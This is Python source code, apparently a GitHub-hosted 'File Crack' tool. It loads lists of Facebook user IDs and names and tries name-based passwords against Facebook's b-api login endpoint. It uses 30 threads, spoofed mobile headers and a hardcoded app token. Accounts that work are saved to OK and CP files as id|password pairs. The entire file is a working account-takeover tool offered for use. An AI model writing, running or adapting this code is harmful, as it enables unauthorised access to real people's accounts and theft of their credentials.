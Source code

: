 import requests,bs4,json,os,sys,random,datetime,time,re
try:
	import rich
except ImportError:
	os.system('pip install rich')
	time.sleep(1)
	try:
		import rich
	except ImportError:
		exit('[âœ“] Internet Eror ,Install Manual (pip install rich)')
from rich.table import Table as me
from rich.console import Console as sol
from bs4 import BeautifulSoup as parser
from concurrent.futures import ThreadPoolExecutor as tred
from rich.console import Group as gp
from rich.panel import Panel as nel
from rich import print as cetak
from rich.markdown import Markdown as mark
from rich.columns import Columns as col
try:ugen = open('user.txt','r').read().splitlines()
except:ugen = ['Mozilla/4.1 (compatible; MSIE 5.0; Symbian OS; Nokia 7610;451) Opera 6.20'] #Aziz
try:ugen2 = open('user2.txt','r').read().splitlines()
except:ugen2 = ['Mozilla/4.1 (compatible; MSIE 5.0; Symbian OS; Nokia 7610;451) Opera 6.20'] #Aziz

id,id2,loop,ok,cp,akun,oprek,method,lisensiku,taplikasi,tokenku,uid,lisensikuni= [],[],0,0,0,[],[],[],[],[],[],[],[]

x = '\033[93m'
k = '\033[93m'
h = '\x1b[1;92m'
hh = '\033[92m'
u = '\033[95m'
kk = '\033[93m'
b = '\33[1;96m'
p = '\x1b[1;95m'
P = '\033[0;00m'
J = '\033[1;93m'
S = '\033[0;00m'
N = '\x1b[0m'
I ='\033[1;92m'
C ='\033[1;96m'
M ='\033[1;91m'
U ='\033[1;95m'
K ='\033[1;93m'
P='\033[00m'
h='\033[1;90m'
Q="\033[00m"
kk='\033[1;92m'
ff='\033[1;96m'
G='\033[1;96m'
p='\033[00m'
h='\033[1;90m'
Q="\033[00m"
I='\033[1;92m'
II='\033[1;96m'
m='\033[1;91m'
O ='\033[1;93m'
H='\033[1;93m'
b = '\033[1;96m'
war = "[â€¢]"
B = random.choice([U,I,K,b,M])

dic = {'1':'Januari','2':'Februari','3':'Maret','4':'April','5':'Mei','6':'Juni','7':'Juli','8':'Agustus','9':'September','10':'Oktober','11':'November','12':'Desember'}
dic2 = {'01':'Januari','02':'Februari','03':'Maret','04':'April','05':'Mei','06':'Juni','07':'Juli','08':'Agustus','09':'September','10':'Oktober','11':'November','12':'Desember'}
tgl = datetime.datetime.now().day
bln = dic[(str(datetime.datetime.now().month))]
thn = datetime.datetime.now().year
okc = 'OK-'+str(tgl)+'-'+str(bln)+'-'+str(thn)+'.txt'
cpc = 'CP-'+str(tgl)+'-'+str(bln)+'-'+str(thn)+'.txt'

my_id = '100007061760822'

def jalan(z):
    for e in z + "\n":sys.stdout.write(e);sys.stdout.flush();time.sleep(0.04)
def mlaku(z):
    for e in z + "\n":sys.stdout.write(e);sys.stdout.flush();time.sleep(0.03)
    
def clear():
	os.system('clear')
def back():
	menu()
def banner():
	clear()
	print("""%s\n\x1b[93;1m


 
 ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©ðŸ‡§ðŸ‡©
                                

                      
\x1b[92;1m===================================>\x1b[92;1m
\x1b[93;1m Author       \x1b[92;1m=>      \x1b[93;1mALHAJ islam
\x1b[93;1m Whatsapp     \x1b[92;1m=>      \x1b[93;1m+8801304002896
\x1b[93;1m YouTube       \x1b[92;1m=>      \x1b[93;1mALHAJ Technology channel
\x1b[92;1m===================================>\x1b[92;1m
"""%(h))
		
def menu(): #Bilo
	banner()
	print("") #Bilo
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	print("""%s \33[1;33m[1] File Crack  """%(h))
	print("""%s \33[1;33m[0] Exit"""%(h))
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	farhan = input(x+'\33[1;96mâ€¢Input Number> ')
	if farhan in ['1','01']:
		File2()
	elif farhan in ['0','00']:
		os.system("xdg-open https://youtube.com/c/ALHAJTechnologychannel")
		exit()
	else:
		os.system("https://youtube.com/c/ALHAJTechnologychannel")
		exit()

def File2():
			clear()
			banner()
			try:
				fileX = input ('\n [+] Enter file path : ') 
				for line in open(fileX, 'r').readlines():
					id.append(line.strip())
				setting()
			except IOError:
				exit("\n [!] file %s not found"%(fileX))

def setting():
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	print("""%s \33[1;33m[01] Farward Cracking """%(h))
	print("""%s \33[1;33m[02] Reverse Cracking """%(h))
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	mubashar = input(x+'\33[1;96mâ€¢Input Number>')
	if mubashar in ['1','01']:
		for bacot in id:
			id2.append(bacot)
	elif mubashar in ['2','02']:
		for bacot in id:
			id2.insert(0,bacot)
	
	else:
		print("""%s \33[1;33mRoung Input"""%(h))
		exit()
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	print("""%s \33[1;33m[01] B-Api (fast)"""%(h))
	print("""%s \x1b[92;1m<===================================>\x1b[92;1m """%(h))
	baloch = input(x+'\33[1;96mâ€¢Input Number> : ')
	if baloch in ['1','01']:
		method.append('api')
	else:
		method.append('api')
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	fast = input(x+'\33[1;96m Want To Start ? (y/t) : ')
	if fast in ['y','Y']:
		passwrd()
	elif fast in ['t','T']:
		os.system("xdg-open https://youtube.com/c/ALHAJTechnologychannel")
		exit()

def passwrd():
	clear()
	banner()
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	print(x+' '+h+' '+x+' Total ids : '+str(len(id)))
	print(x+'   [  IF NO RESULT USE AIRPLANE MODE  ]\n   Cracking Starting...')
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
			if 'api' in method:
				pool.submit(crack2,idf,pwv)
			else:
				pool.submit(crack2,idf,pwv)
	print('')
	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))
	exitss = input(x+'\33[1;96m Want to Exit (y/t) : ')
	if exitss in ['y','Y']:
		exit()
	else:
		exit()

def crack2(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	print('\r%s [ALHAJ] %s/%s  OK*%s | CP*%s => %s%s%s'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x), end=' ');sys.stdout.flush()
	ua = random.choice(ugen).replace('\n','')
	ses = requests.Session()
	for pw in pwv:
		try:
			head = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": ua, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}
			resp = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(idf)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=head)
			if "www.facebook.com" in resp.json()["error_msg"]:
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				else:
					print('\r%s [ALHAJ-CP] %s|%s        '%(b,idf,pw))
					open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
					akun.append(idf+'|'+pw)
					cp+=1
				break
			elif "session_key" in resp.text and "EAAB" in resp.text:
				print('\r%s [ok] %s|%s        '%(h,idf,pw))
				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')
				ok+=1
				break
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1

def jalan(z):
    for e in z + "\n":
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.04)
def mlaku(z):
    for e in z + "\n":
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


if __name__=='__main__':
	os.system('git pull')
	try:os.mkdir('CP')
	except:pass
	try:os.mkdir('OK')
	except:pass
	os.system("xdg-open https://youtube.com/c/ALHAJTechnologychannel")
	menu()
	
